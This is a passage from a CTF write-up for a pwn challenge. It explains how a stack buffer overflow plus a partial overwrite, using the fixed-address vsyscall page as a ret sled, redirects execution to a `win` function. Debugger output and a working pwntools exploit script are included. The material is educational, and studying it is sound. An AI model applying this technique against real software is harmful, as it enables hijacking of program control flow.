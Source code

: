 ### Ideating our exploit strategy

Our goal is to call the `win` function, but it is non trivial to do so without knowing any LIBC or ELF address.

If we look at the stack at the point when we return from the `main` function, we can see that we are only able to achieve a partial overwrite on the libc address.

```sh
 ► 0x5637770f9281 <main+135>                      ret                                  <0x7fc5764f2d90; __libc_start_call_main+128>
──────────────────────────────────────────────────────────────────────────────────
pwndbg> tele $rsp # we can print the top of our stack
00:0000│ rsp 0x7ffcacd59d48 —▸ 0x7fc5764f2d90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7ffcacd59d50 ◂— 0x0
02:0010│     0x7ffcacd59d58 —▸ 0x5637770f91fa (main) ◂— endbr64
```

In order to actually call the `win` function, we would want to do a partial overwrite of the `main` function to convert it to `win` and return there.

If we actually looked at the provdied Dockerfile, there is a hint given _(i did not notice this during the CTF...)_

```Dockerfile
# Docker host server's boot option setting:
# echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
# reboot
```

The kernel is set to run with `vsyscall=emulate` configuration. If we do some research on this, we can find writeups like [this](https://nandynarwhals.org/hitbgsec2017-1000levels/#solving-the-pie-problem).

Essentially, there is a region of memory that is loaded at a fixed address called **vsyscall**. The purpose of this is to allow the kernel to run syscalls without leaving the userspace for efficiency purposes, by emulating some of the more commonly used syscalls such as `gettimeofday()` etc.

![vsyscall](vsyscall.png)

What this means for us is that we have a very useful `ret` gadget that we can use to fill the space between the stack until the `main` address and achieve our partial overwrite to call `win`.

### Solution

```py
from pwn import *
p = process("./prob")
p.send(b"A"*40 + p64(0xffffffffff600000)*2 + b"\xc9")
p.interactive()
```

## Pwn - Escape Room

## Reverse - Flag Checker
